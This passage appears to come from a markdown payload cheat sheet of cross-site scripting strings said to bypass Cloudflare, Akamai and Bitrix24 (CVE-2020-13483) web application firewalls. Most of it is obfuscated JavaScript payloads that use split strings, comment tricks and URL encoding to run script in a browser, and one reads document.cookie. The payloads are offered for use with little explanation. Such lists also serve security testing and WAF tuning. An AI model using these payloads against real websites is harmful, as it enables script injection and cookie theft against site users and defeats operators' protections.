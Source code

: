     Both line and paragraph separator Unicode characters works there, 

    ````
    %E2%80%A8
    ````

- Cloudflare [#XSS](https://twitter.com/hashtag/XSS?src=hashtag_click) WAF Bypass @nav1n0x

    ```js
    "%2Bself[%2F*foo*%2F'alert'%2F*bar*%2F](self[%2F*foo*%2F'document'%2F*bar*%2F]['domain'])%2F%2F
    ```

- Bitrix24 CMS [#XSS](https://twitter.com/hashtag/XSS?src=hashtag_click) [#WAF](https://twitter.com/hashtag/WAF?src=hashtag_click) Bypass CVE-2020-13483 (Shorter Payload) 

    ```js
    <a href="/*">*/)});function+__MobileAppList(){alert(1)}//>
    ```

    ![Image](../_resources/FJTtOW.jpg)

- Cross Site Scripting (XSS) Akamai WAF Bypass try this payload : 

    ```
    <!--><svg+onload=%27top[%2fal%2f%2esource%2b%2fert%2f%2esource](document.cookie)%27>
    ```

    urldecode  

    ```
    <!--><svg onload='top[/al/.source+/ert/.source](document.cookie)'>
    ```

    ```js
    %3Cmarquee%20loop=1%20width=%271%26apos;%27onfinish=self[`al`+`ert`](1)%3E%23leet%3C/marquee%3E
    ```
